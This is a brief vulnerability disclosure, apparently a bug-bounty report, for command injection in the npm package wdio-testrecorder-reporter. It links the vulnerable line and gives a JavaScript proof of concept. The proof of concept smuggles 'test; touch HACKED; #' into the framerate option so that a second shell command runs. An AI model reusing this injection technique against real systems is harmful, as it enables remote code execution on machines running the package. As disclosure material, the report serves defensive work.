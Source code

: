 ## Vulnerability Description
The issue occurs because a `user input` is formatted inside a `command` that will be executed without any check. The issue arises here: https://github.com/tamil777selvan/wdio-testrecorder-reporter/blob/master/index.js#L111

## POC

```js
// poc.js
var wdio = require('wdio-testrecorder-reporter').default;
var conv = new wdio({'outputDir':'s', 'videoOutputPath':'s', 'framerate':'test; touch HACKED; #'});
suiteStat = {};
suiteStat.complete = function(){};
conv._events['suite:start']({'type':'scenario', 'title':'s'});
conv._events['suite:end']({uid:'s'});
conv._events['suite:start']({'type':'scenario'})
conv._events['suite:end']({});

```

## Impact
`RCE` via command formatting on `wdio-testrecorder-reporter`
